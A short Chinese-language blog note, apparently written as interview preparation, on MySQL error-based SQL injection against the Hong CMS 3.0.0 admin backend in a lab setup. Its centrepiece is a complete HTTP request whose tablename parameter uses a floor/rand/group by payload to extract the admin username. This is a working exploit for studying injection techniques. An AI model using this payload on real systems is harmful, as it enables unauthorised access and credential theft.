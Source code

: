 # 0x00 前言
360的笔试和前两天的面试都问道这个问题了，只不过360是sql server，然后后来的面试问的是MySQL，以前感觉自己好像都会了，但是当真正遇到问题才发现不是想想中的样子。。

# 0x01 先来MySQL（这个环境好搭建一点）
环境
- Windows server2008
- IIS7+php5+mysql5.0.22
- Hong cms 3.0.0后台报错注入

# 0x02 注入payload

实际遇到可能要先爆破管理员密码。。。。
参考[Hongcms 3.0.0后台SQL注入漏洞分析](https://www.freebuf.com/vuls/178316.html)和[十种MySQL报错注入](https://blog.csdn.net/whatday/article/details/63683187)  
采用报错注入，因为mysql5.0没有updatexml函数，所以使用floor、group by和count函数的冲突进行报错注入。
```
GET /admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20ascii(substring(username,1,1))%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60 HTTP/1.1
Host: 192.168.72.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.72.131/admin/index.php/database
Connection: keep-alive
Cookie: O0oqZrypyswqadmin=104918af865ae8146284b36ed2c5c907
Upgrade-Insecure-Requests: 1
```
可以写个脚本用